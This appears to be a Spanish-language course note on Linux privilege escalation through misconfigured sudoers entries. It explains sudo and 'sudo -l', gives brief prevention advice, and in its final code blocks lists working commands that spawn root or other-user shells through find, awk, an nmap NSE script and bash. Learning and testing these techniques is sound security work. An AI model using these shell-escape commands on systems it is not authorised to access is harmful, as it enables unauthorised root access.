 # Abusando de privilegios a nivel de Sudoers

Tags: #Linux #Sudoers #Escalada #Root #Privilegios 

El archivo **/etc/sudoers** es un archivo de configuración en sistemas Linux que se utiliza para controlar el acceso de los usuarios a las diferentes acciones que pueden realizar en el sistema. Este archivo contiene una lista de usuarios y grupos de usuarios que tienen permisos para realizar tareas de administración en el sistema.

El comando “**sudo**” permite a los usuarios ejecutar comandos como superusuario o como otro usuario con privilegios especiales. El archivo sudoers especifica qué usuarios pueden ejecutar qué comandos con sudo y con qué privilegios.

Abusar de los privilegios a nivel de sudoers es una técnica utilizada por los atacantes para elevar su nivel de acceso en un sistema comprometido. Si un atacante es capaz de obtener acceso a una cuenta con permisos de sudo en el archivo sudoers, puede ejecutar comandos con privilegios especiales y realizar acciones maliciosas en el sistema.

El comando “**sudo -l**” es utilizado para listar los permisos de sudo de un usuario en particular. Al ejecutar este comando, se muestra una lista de los comandos que el usuario tiene permiso para ejecutar y bajo qué condiciones.

Para prevenir el abuso de privilegios a nivel de sudoers, se recomienda mantener los permisos adecuados en el archivo sudoers y limitar el número de usuarios con permisos de sudo. Además, es importante monitorear regularmente el archivo sudoers y buscar cambios inesperados o sospechosos en su contenido.

A continuación, se os comparte el recurso GTFOBINS el cual utilizamos en esta clase para detectar comandos que potencialmente puedan ser explotados para elevar nuestro privilegio de usuario:

- **GTFOBins**: [https://gtfobins.github.io/](https://gtfobins.github.io/)

## Sudoers 

```bash
❯ sudo -l    # Ejecutar el comando 'find' sin password
	
	# (ALL : ALL) ALL
	# ALL=(root) NOPASSWD: /usr/bin/find
	
	# Ejecutar el comando de la siguiente manera:
❯ sudo find . -exec /bin/sh \; -quit
❯ sudo awk 'BEGIN {system("/bin/sh")}' 
```

```bash
❯ sudo -l      # Ejecutar el comando 'nmap' siendo 'user2' sin passwd
	
	#  (user2) NOPASSWD: /usr/bin/nmap 

	# Ejecutar el comando de la siguiente manera:
❯ echo 'os.execute("/bin/sh")' > script.nse     # Ejecutar el comando en el dir '/tmp/'
❯ sudo -u user2 nmap --script=/tmp/script.nse
```

```bash 
❯ sudo -l       # Cambiar de usuario sin password 

	#  (user1 : user2) NOPASSWD: /bin/bash 

	# Ejecutar el comando de la siguiente manera:
❯ sudo -u user2 /bin/bash     
```